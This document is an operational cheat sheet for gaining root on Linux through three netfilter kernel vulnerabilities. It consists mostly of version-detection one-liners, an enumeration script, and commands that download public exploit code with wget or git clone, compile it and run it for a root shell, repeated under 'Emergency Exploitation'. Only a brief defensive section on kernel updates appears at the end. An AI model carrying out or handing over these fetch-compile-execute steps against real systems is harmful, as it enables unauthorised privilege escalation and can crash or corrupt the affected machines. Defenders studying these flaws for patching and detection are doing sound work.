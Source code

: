 # 🌐 Netfilter Kernel Exploits

## 🎯 Overview

Netfilter Linux kernel module vulnerabilities provide privilege escalation through kernel-level exploitation targeting specific vulnerable kernel versions (2.6-6.3.1).

## 🚨 Major Netfilter CVEs

### CVE-2021-22555 (Heap Out-of-Bounds)
- **Affected**: Linux kernels 2.6 - 5.11
- **Impact**: Local privilege escalation via heap corruption
- **Exploit**: Memory corruption in netfilter subsystem

### CVE-2022-25636 (Heap Out-of-Bounds Write) 
- **Affected**: Linux kernels 5.4 - 5.6.10
- **Impact**: Root privileges via heap out-of-bounds write
- **Risk**: Can corrupt kernel, reboot required

### CVE-2023-32233 (Use-After-Free)
- **Affected**: Linux kernels up to 6.3.1
- **Impact**: Anonymous sets Use-After-Free in nf_tables
- **Method**: Manipulating cleared anonymous sets

## 🔍 Kernel Version Detection

### Check Vulnerable Versions
```bash
# Check current kernel
uname -r

# CVE-2021-22555 check (2.6 - 5.11)
uname -r | grep -qE "^(2\.|3\.|4\.|5\.[0-9]|5\.1[01])\." && echo "CVE-2021-22555 VULNERABLE"

# CVE-2022-25636 check (5.4 - 5.6.10)  
uname -r | grep -qE "^5\.[456]\." && echo "CVE-2022-25636 VULNERABLE"

# CVE-2023-32233 check (up to 6.3.1)
uname -r | grep -qE "^[1-5]\.|^6\.[0-3]\." && echo "CVE-2023-32233 VULNERABLE"
```

## 🚀 Exploitation Methods

### CVE-2021-22555 Exploitation
```bash
# Download exploit
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c

# Compile (32-bit static)
gcc -m32 -static exploit.c -o exploit

# Execute for root shell
./exploit
# Result: uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2022-25636 Exploitation
```bash
# Download exploit
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636

# Compile and execute
make
./exploit

# ⚠️ WARNING: Can corrupt kernel!
```

### CVE-2023-32233 Exploitation  
```bash
# Download exploit
git clone https://github.com/Liuk3r/CVE-2023-32233.git
cd CVE-2023-32233

# Compile with required libraries
gcc -Wall -o exploit exploit.c -lmnl -lnftnl

# Execute for root shell
./exploit
# Result: uid=0(root) gid=0(root) groups=0(root)
```

## 🔍 Detection & Enumeration

### Netfilter Vulnerability Check
```bash
#!/bin/bash
echo "=== NETFILTER KERNEL EXPLOITS CHECK ==="

kernel=$(uname -r)
echo "Kernel version: $kernel"

# CVE-2021-22555 (2.6 - 5.11)
if echo "$kernel" | grep -qE "^(2\.|3\.|4\.|5\.[0-9]|5\.1[01])\."; then
    echo "[!] CVE-2021-22555 VULNERABLE"
    echo "    Download: https://github.com/google/security-research"
fi

# CVE-2022-25636 (5.4 - 5.6.10)  
if echo "$kernel" | grep -qE "^5\.[456]\."; then
    echo "[!] CVE-2022-25636 VULNERABLE (CAUTION: Can corrupt kernel)"
    echo "    Download: https://github.com/Bonfee/CVE-2022-25636"
fi

# CVE-2023-32233 (up to 6.3.1)
if echo "$kernel" | grep -qE "^[1-5]\.|^6\.[0-3]\."; then
    echo "[!] CVE-2023-32233 VULNERABLE"
    echo "    Download: https://github.com/Liuk3r/CVE-2023-32233"
fi

echo "[+] Checking dependencies:"
which gcc 2>/dev/null && echo "GCC available"
dpkg -l | grep -E "(libmnl|libnftnl)" | head -2
```

### Netfilter Service Check
```bash
# Check if netfilter/iptables active
iptables -L 2>/dev/null | head -5
systemctl status netfilter-persistent 2>/dev/null
lsmod | grep netfilter
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Kernel vulnerability quick check
uname -r | grep -qE "^(2\.|3\.|4\.|5\.[0-9]|5\.1[01])\." && echo "CVE-2021-22555"
uname -r | grep -qE "^5\.[456]\." && echo "CVE-2022-25636"  
uname -r | grep -qE "^[1-5]\.|^6\.[0-3]\." && echo "CVE-2023-32233"

# Compilation capability
which gcc
```

### Emergency Exploitation
```bash
# CVE-2021-22555 (safest, wide range)
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit

# CVE-2023-32233 (newer kernels)
git clone https://github.com/Liuk3r/CVE-2023-32233.git
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```

## ⚠️ Critical Warnings

### Kernel Exploit Risks
- **System instability** - Can crash the system
- **Kernel corruption** - May require reboot
- **Production danger** - Never run on production systems
- **Testing recommended** - Test in controlled environments

### Exploitation Considerations
- **CVE-2022-25636** - Highest risk of kernel corruption
- **CVE-2021-22555** - Most stable, widest kernel range
- **CVE-2023-32233** - Newest, targets recent kernels
- **Dependencies** - Some require specific libraries (libmnl, libnftnl)

## 🛡️ Defensive Measures

### Kernel Updates
```bash
# Check available kernel updates
apt list --upgradable | grep linux-image
dnf check-update kernel

# Update kernel (requires reboot)
sudo apt update && sudo apt upgrade linux-image-generic
```

### Netfilter Hardening
```bash
# Disable unnecessary netfilter modules
# Monitor kernel exploit attempts
# Implement kernel address space layout randomization (KASLR)
# Use grsecurity/PaX if available
```

---

*Netfilter kernel exploits target the network filtering subsystem - these kernel-level vulnerabilities provide direct root access but carry significant system stability risks and should be used with extreme caution.* 